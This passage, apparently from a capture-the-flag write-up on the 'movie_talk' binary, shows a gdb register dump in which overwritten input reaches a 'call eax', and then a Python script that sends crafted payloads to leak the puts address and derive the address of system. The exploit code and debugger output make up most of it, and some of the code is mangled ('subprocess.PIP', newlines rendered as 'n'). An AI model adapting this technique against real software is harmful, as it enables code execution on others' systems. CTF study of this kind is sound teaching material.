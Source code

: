 --------------------------------------------------------------------------[regs]
 EAX: 0x61616161  EBX: 0xB7FC3000  ECX: 0xB7FDA000  EDX: 0x0804C008  o d I t s z a p c
 ESI: 0x00000000  EDI: 0x00000000  EBP: 0xBFFFF178  ESP: 0xBFFFF150  EIP: 0x08048C21
 CS: 0073  DS: 007B  ES: 007B  FS: 0000  GS: 0033  SS: 007B
--------------------------------------------------------------------------1
=&gt; 0x8048c21:    call   eax
 0x8048c23:    add    DWORD PTR [ebp-0xc],0x1
</pre>

What is also important to notice here, is that movie list is pushed on stack, that means that stack layout is pointing to our controled buffer, so whatever we put into this movie_name, can be used as  argument for our code:

<pre class="brush: plain; title: ; notranslate" title="">gdb$ x/4wx $esp
0xbffff150:    0x0804c008    0x0000000c    0xb7fc3ac0    0xb7e13900
               ^^^^^^^^^^
                   |
                   +---- our controled input

</pre>

Address leak bonus, which was our 1st idea to get system address right away, was to leak puts address and do subtraction, unfortunately due to writing to pipe output would only come when pipe buffer is filled or process is terminated, so our idea didn't work, but for fun here is our code to leak puts address:

<pre class="brush: plain; title: ; notranslate" title="">gdb$ p puts-system
$1 = 0x26cf0
</pre>

<pre class="brush: plain; title: ; notranslate" title="">import time
import struct
import os
import subprocess

proc = subprocess.Popen("./movie_talk",
                        #shell=True,
                        stdin = subprocess.PIPE,
                        stdout = subprocess.PIP,
                        stderr = subprocess.PIPE);

payload = "1n" + "a" * 16 + "n0n0n"

#leak address of puts on ubuntu 13.04
payload += "1n";
payload += struct.pack("&lt;L", 0x80487aa);
payload += struct.pack("&lt;L", 0x804b030);
payload += struct.pack("&lt;L", 0x804b030);
payload += "n0n0n"
payload += "3n";
proc.stdin.write(payload);
time.sleep(3);
os.system("killall -3 movie_talk");
time.sleep(5);
proc.stdin.write("4n");
proc.wait();
buff = proc.stdout.read();
index = buff.find("movie id: 134524976");
index+=7;
index+=len("movie id: 134524976");
data = struct.unpack("&lt;L", buff[index:index+4]);
for x in data:
    print("puts address   : 0x%.08X" % x);
    print("system address : 0x%.08X" % (x-0x26cf0));
</pre>

